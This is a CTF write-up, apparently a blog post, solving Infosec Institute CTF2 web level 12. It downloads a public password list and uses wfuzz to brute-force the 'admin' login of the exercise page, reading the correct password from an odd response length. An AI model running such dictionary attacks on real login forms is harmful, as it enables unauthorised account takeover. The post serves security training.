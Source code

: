 ```yaml
---
layout: post
title: Infosec Institute CTF2 Practical Web Hacking Level 12
category: Web
tags: infosec
---
```


**Vulnerability** Dictionary Attack
**Description:**

![screen]({{site.url}}/assets/Screen Shot 2015-07-17 at 7.10.58 PM.png)

## Write-up

For almost all levels I will be using Burpsuite. Burpsuite is an interception proxy that lets us modify the HTTP request
 / response by intercepting the data between the browser and the web server.
 
Let's be good boys and listen to the web page talking! Googling "filetype:lst password" takes us to
http://www.openwall.com/passwords/wordlists/password-2011.lst  
Download the password list in our local directory.

{% highlight bash linenos %}
/infosec2$ wget http://www.openwall.com/passwords/wordlists/password-2011.lst
--2015-07-17 19:14:21--  http://www.openwall.com/passwords/wordlists/password-2011.lst
Resolving www.openwall.com (www.openwall.com)... 195.42.179.202
Connecting to www.openwall.com (www.openwall.com)|195.42.179.202|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 26215 (26K) [text/plain]
Saving to: `password-2011.lst'

100%[==========================================================================================>] 26,215      46.7K/s   in 0.5s    

2015-07-17 19:14:23 (46.7 KB/s) - `password-2011.lst' saved [26215/26215]

/infosec2$ 
{% endhighlight %}

This time we are not going to use Burpsuite, because Burpsuite's Intruder feature is being throttled in the free edition of Burp.
Instead we are going to use a tool called wfuzz. The syntax is as follows:

{% highlight bash linenos %}
/infosec2$ wfuzz -c -z file,password-2011.lst -d "username=admin&password=FUZZ&logIn=Login" http://ctf.infosecinstitute.com/ctf2/exercises/ex12.php
{% endhighlight %}

'-c' is used for color output, '-z' for payload type that's why it's follow by "file" and the name of the file "password-2011.lst"
that we just downloaded. '-d' is for POST data, we can get that either by looking at the request with Burp or the source code of the
submission form. And at the end we need to send our request to the correct URL and php page intended for the form.

Wfuzz is going to start using each of the words in our dictionary file in place of the keyword 'FUZZ' which we placed
in the POST data of the request.

{% highlight bash linenos %}
/infosec2# wfuzz -c -z file,password-2011.lst -d "username=admin&password=FUZZ&logIn=Login" http://ctf.infosecinstitute.com/ctf2/exercises/ex12.php

********************************************************
* Wfuzz  2.0 - The Web Bruteforcer                     *
********************************************************

Target: http://ctf.infosecinstitute.com/ctf2/exercises/ex12.php
Payload type: file,password-2011.lst

Total requests: 3557
==================================================================
ID	Response   Lines      Word         Chars          Request    
==================================================================

00001:  C=200    138 L	     309 W	   4880 Ch	  "en compiled by Solar Designer of Openwall Project,"
00002:  C=200    138 L	     309 W	   4880 Ch	  " - 1234567890"
00003:  C=200    138 L	     309 W	   4880 Ch	  " - #!comment:"
00004:  C=200    138 L	     309 W	   4880 Ch	  " - password"
00005:  C=200    138 L	     309 W	   4880 Ch	  " - #!comment: http://www.openwall.com/wordlists/"
00006:  C=200    138 L	     309 W	   4880 Ch	  "990's, sorted for decreasing number of occurrences"
00007:  C=200    138 L	     309 W	   4880 Ch	  " - #!comment:"
00008:  C=200    138 L	     309 W	   4880 Ch	  " - 12345678"
00009:  C=200    138 L	     309 W	   4880 Ch	  " - 123456"
00010:  C=200    138 L	     309 W	   4880 Ch	  " - abc123"
**** omitted for space ****
00282:  C=200    138 L	     309 W	   4880 Ch	  " - peace"
00283:  C=200    138 L	     309 W	   4880 Ch	  " - peanut"
00284:  C=200    138 L	     309 W	   4880 Ch	  " - phantom"
00285:  C=200    143 L	     284 W	   4731 Ch	  " - princess"
00286:  C=200    138 L	     309 W	   4880 Ch	  " - popcorn"
00287:  C=200    138 L	     309 W	   4880 Ch	  " - pumpkin"
00288:  C=200    138 L	     309 W	   4880 Ch	  " - purple"
00289:  C=200    138 L	     309 W	   4880 Ch	  " - psycho"
{% endhighlight %}

We can see that even incorrect passwords return 200OK HTTP response code, so the trick here would be to look for
returned pages with unusual character count. If you notice each of the passwords used returns a page with character count of
4880, except password "princess" which returned a page with 4731 characters, so let's try that !

![screen3]({{site.url}}/assets/Screen Shot 2015-07-17 at 7.27.34 PM.png)

## Links

* <http://ctf.infosecinstitute.com/ctf2/exercises/ex12.php>
